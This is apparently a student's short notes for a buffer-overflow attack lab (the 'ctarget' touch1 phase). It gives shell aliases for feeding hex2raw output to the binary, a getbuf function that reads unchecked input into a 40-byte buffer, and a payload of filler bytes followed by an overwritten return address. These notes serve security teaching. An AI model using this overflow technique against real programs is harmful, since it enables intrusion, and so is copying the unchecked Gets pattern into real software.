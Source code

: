 [TOC]

alias mmk='gdb --args ./ctarget -q'

```bash
alias atkq='./hex2raw < ./exploits.txt > raw.txt; gdb -x cmds --args ./ctarget -q -i ./raw.txt'; alias py='python3 -c'

alias atkqr='./hex2raw < ./exploits.txt > raw.txt; ./ctarget -q -i ./raw.txt'; alias py='python3 -c'

alias submit='./hex2raw < ./exploits.txt > raw.txt; ./ctarget -i ./raw.txt'; alias py='python3 -c'
```

touch1:  0x00000000 00401f5d

```c
void getbuf() {
    char buf[0x28];    // 40
    Gets(buf);
    printf("You entered: %s\n", buf);
}
"de ad be ef"*10 + "5d 1f 40 00 00 00 00 00"
```
